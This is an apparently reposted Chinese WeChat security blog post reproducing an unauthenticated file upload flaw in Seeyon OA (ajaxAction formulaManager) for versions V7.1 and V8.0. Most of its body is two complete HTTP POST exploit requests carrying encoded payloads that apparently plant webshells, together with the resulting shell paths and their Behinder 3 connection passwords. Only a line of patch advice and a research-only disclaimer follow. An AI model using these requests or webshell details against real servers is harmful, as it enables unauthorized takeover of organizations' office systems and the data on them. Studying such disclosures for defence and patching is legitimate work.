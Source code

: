 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZyPwCytO7NLUuo9rfKtgyQ)

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjf5BDGObeEfV5qmUR4mutlppXHHADxmomViabnic9nQ0zE9dL8HUfxX6nfVraobkrIKh38Fd7Iwc6cA/640?wx_fmt=jpeg)

致远 OA ajaxAction formulaManager 文件上传漏洞

一、漏洞描述

致远 OA 是一套办公协同软件。近日，阿里云应急响应中心监控到致远 OA ajaxAction 文件上传漏洞利用代码披露。由于致远 OA 旧版本某些 ajax 接口存在未授权访问，攻击者通过构造恶意请求，可在无需登录的情况下上传恶意脚本文件，从而控制服务器。

二、影响版本

致远 OA V8.0、V8.0SP1

致远 OA V7.1、V7.1SP1

三、漏洞复现

exp:  

```
POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1
Host: x.x.x.x
Content-Length: 3519
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=A8EB887774D3B4D0D8CD0584D0B9802D; loginPageURL=
Connection: close

managerMethod=validate&arguments=%1F%C2%8B%08%00%C2%94%3A%C3%BC%5F%00%C3%BFuTKs%C2%A3F%10%3E%27%C2%BF%C2%82%C3%B2Evy%23%23%10k%2B%5B%7B%C2%B0%1E%20%C2%84%C2%84%25%C2%90x%C2%A5r%C2%80%19%04%C2%83f%C2%80%C2%88%C2%B7%5C%C3%BB%C3%9Fw%009%C3%B6V%1C%2E%C3%93%C3%93t%7F%C3%93%C3%BD%C3%B5%C3%A3%C2%AF%C3%97%C3%8119%C2%93%02%C2%BB%C3%BB%26%C3%B5%07%7F2%C2%A3%2F%C3%8C%C2%9BFuI%C2%AB%19%C3%A4%7E%C2%96%0F%C3%9E%C3%95%C2%8B%3A%3D%C3%BBY%C2%86%C2%92%C2%B8%C3%BD%C2%A9%C3%A7g%14%07L%C3%AA%C3%A6%21%C3%B3%C2%9D%C2%B9%19%0E%1F%2A%C3%9Fs%C3%934%7B%C3%88%7C%C2%BFI%C3%A2%C2%87%C2%9Bo%C2%BF3%C3%BD%C3%B7%5B%C3%A4%C2%96%C3%AE%10%25%C3%83%2Du%C3%89%C3%8D3%C3%8A%C3%BD3%C2%93%C2%BE%C3%8B%1C%05%C2%88%C3%BD%C2%8A%C3%B9%C3%84%C3%AC%C2%B6%C3%85%C2%BF%C2%BF%C3%89%C3%AB%C3%A3h%18ei%7Ds%C3%B7%2F%2As%C2%8D%20%0B%7D%C2%8C%C3%9B%10%C2%B6Rz%01%C3%B3%C2%B4%C3%B1%C2%B8%09%2B%2F%C3%83%C3%9C%C2%93%C2%84%C3%8B%0Biu%2Cr%C2%97%1A%0B%C3%A6I%C2%B9%C3%A6%C3%92%10%C2%92E%01x%C2%A3X%13%C2%B5%C3%B4%C3%B4%C2%89r%18%3D%C2%97%07I%C2%8C%1D%5D%0E%201%1A%C3%80%C3%A1%C3%92%C2%8BX%C2%B4%C3%91%C3%87%C2%8D%1C%C2%8D%C2%9F%C3%9CX%C2%AD%5E%C2%88%C2%96%02bDP%C3%82%C2%9C%C2%A3%0B%C2%95mB%2CK8%07%C3%92%C2%A4%C2%81%2D%3E%119%5B%17F%C3%B4%7F%C2%B6FI%C3%96%C3%9D%C2%AD%C2%A0%C2%B0%C3%B9%C2%95%00%C2%96Z%C3%B9%C2%A9%C2%8E%C3%A2%3A%C3%A6%C2%A6P%C2%90%5Cn%C2%A3%C3%BA%1F%C3%80%3F%7Fu%24%23%C3%B2%24%C2%B1%C2%B1%2D%2D%C3%B5%C2%B8%C3%B1%C2%BD%2C%C2%A9%C2%99m%C2%A9%17Y%3C%04%C2%8E%15%C2%B2%C2%8E%29%C2%9C%403%C2%9DS%C2%9B%0B%60%C3%AB%C3%9265%0C%C3%A2%C3%9CP%16%C2%BD%C3%9D%5E%C2%9A%C2%84%14%C2%A3%C2%91%C2%A5M%C3%AA%C3%B3%C3%AA%08PY%C2%A1%C3%B2%0B%3F%C2%AA%C2%A0%C2%B9%C3%8A%5Cs%13%C3%AC%C2%B8%3A%04%C3%BC%26p%C2%9A%10%C3%B9%C2%96%C2%86e1%C2%876%C3%82%C2%8F4%3F%16Z%C2%ABB%5E%C3%B6%7Ek%C2%A2a%C2%87%C3%A0%C3%829%C3%B4%C3%98%C2%8A%24g%C2%9BY%C2%8D%C3%96%C2%A4%C3%86%1E%C2%81%C2%AC%3B%3B%3D%1E%2D%C3%B6%C2%89r%C3%9A%C3%B2%7Er%C3%8C%C3%96n%15R%0E%28%7FW%C3%9Eb5%02%04WP%C2%AA1%C2%9C%0B%7B%C2%B8%5C%C2%A5%1E%01%C2%81%7B%C2%A1%C3%BC%C3%8Ewc%C3%95%C2%94ku%1ET%C3%AA%7CsQ9%119H%7E%04%C2%9Cq%C3%A9j%C2%80%C2%84%0AZ%C2%9Ai%C2%9B%C3%B5%C3%88%C3%91%03%04u9s%C2%9B%C3%93%C3%A3%C2%8E%C3%83%C2%95%C3%9B%C3%A78y%C2%93%C3%97%04b%C2%B8%C3%80%C2%B4%C2%AEZ%C3%A8%11%15%2B%C2%B3%C3%95T36H%C3%99%C3%A7%C3%91%C2%9A%C3%A6%C3%A0Z%C2%BBd%C2%83%C3%AA%C3%82%C2%B1%40p%C3%A0%0C%1A%C2%93%C3%81%C3%AA%C2%9C%21%1C%C3%B8%29%C2%B6%C2%9B%20%C3%B9%C3%B0f%C3%AC%C3%BC%C3%BAf%C2%AA42R%C3%B4N%3Fk%C3%B9%02M%C2%90%C2%AE%C3%9F%C3%B0%C3%B5%C3%93%C2%A3G%0C%C2%9E%C3%96%27%C2%81R%C2%98%C2%82%C2%A6%C2%B3%C3%AB%C3%AB%C3%93%C3%9Auq%C3%BDZ%1Bev%C2%A2z%C2%90%C3%98%C2%8Dp%C3%B2X%C2%87%C3%B2%21f%C2%8A%24%60%C3%98L%2F%C3%90%1C%17%C2%9E%C2%89%2F%C3%B4%C3%9Flg%C2%A8%C2%A2%1Ai%0B%C3%8Aky%C3%B5%2B%C2%BA%C3%BE%C3%A04%C2%BC%C2%8B%0D%C3%A2%C3%90%5EU%C2%96%2B%0C%2C%03%03%7EW8%C2%9C%C3%81%1E%C2%88%C3%B1%C3%B6FAs%0C%1D%3A%C2%B4%1E9%244%C3%8E%C2%94%C3%A6%40%C3%B3%C2%87%2B%2FVY%C3%9B%14%22%C2%9A%1F%C2%8D%C3%83%C2%A8%C2%A1%29f%C2%A0%09%C2%BB%C2%9E%C3%9Eq%C2%93%02J%C3%86%18%C3%92%C3%9Ang%C2%93%C2%AE%27%01%C2%A76%C2%AE5e%3D%C3%89%60%C2%B7QU%C3%B6u%5D%C2%95%1E%C2%BF%C2%BB%7F%1Fr%26%2B%C3%A2%21A%19%18N%C2%9F%C3%B5%C3%85%C3%97%C3%B1%C3%9C%07%09%C2%A4s%0E%C2%AFg%3F%C3%A2%C2%9F%1B%C3%9D%C3%BEw%C2%AA%7B%C2%B7%C3%AB%C2%A5%C3%B7%C3%AD%2F%C2%B7W%C3%80a%7FN%C2%8B%C3%A3%C2%91%02tK%C3%A0%C3%AE%C3%8B%C3%8Da%2F%C3%BE%C3%B1%C3%B4qI%7C%5C3%C3%83%C3%AE%C2%82%C3%A3%2BD%C2%8F%C3%B7%7F%C2%B6%00%27%C2%99O%03%C3%BB%C3%B1%C2%AD%5D%C2%83T%C2%80%C3%BE%C2%91%C3%89r7G%C2%80%C2%A9%C3%AB%C3%BA%C3%B6%C3%AEu%C3%B0%C2%83%C3%AEF%C2%BA%1F%5F%C3%9B3%3F%17%C3%BE%C3%A0%C3%AF%C2%9F%C3%9EEhKV%05%00%00
```

500 说明上传成功

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf5BDGObeEfV5qmUR4mutlp1TEzMxxoUEQU5Rnp0HPicsb8iaAZ9fb1Ob3Q0RDgp7xSIPbR8sQzU14w/640?wx_fmt=png)

访问异常 500:

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf5BDGObeEfV5qmUR4mutlpwHtVqOltgngTTiaJH4GnzW0VylxdDxvFasGxbKATIQO6XSvicqAKC3Vw/640?wx_fmt=png)

shell：http://127.0.0.1/seeyon/txf1.jspx 密码：leishi 冰蝎 3 连接（雷石安全 exp 加密版本）

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf5BDGObeEfV5qmUR4mutlpxlQO5fUlzfK99hOSe7nn8oiap8R9lJ7wTxRlg6LQgsIpFu1xIMAvreA/640?wx_fmt=png)

互联网还存在另外的一个加密 exp  

```
POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1
Host: x.x.x.x
Content-Length: 3519
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=A8EB887774D3B4D0D8CD0584D0B9802D; loginPageURL=
Connection: close

managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00
```

shell：http://127.0.0.1/seeyon/SeeyonUpdate1.jspx 密码：rebeyond 冰蝎 3 连接

四、安全建议

致远 OA 为商业软件，建议联系官方以获取最新相关补丁，以及升级至最新版本。

参考：

https://mp.weixin.qq.com/s/OGBP0OkVdC2bZ0lzK2ZdjA

https://mp.weixin.qq.com/s/bHKDSF7HWsAgQi9rTagBQA

https://mp.weixin.qq.com/s/OcaE2VXgmI0bXAfibz1oVA

https://github.com/flywuhu/seeyonAjaxGetshell

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)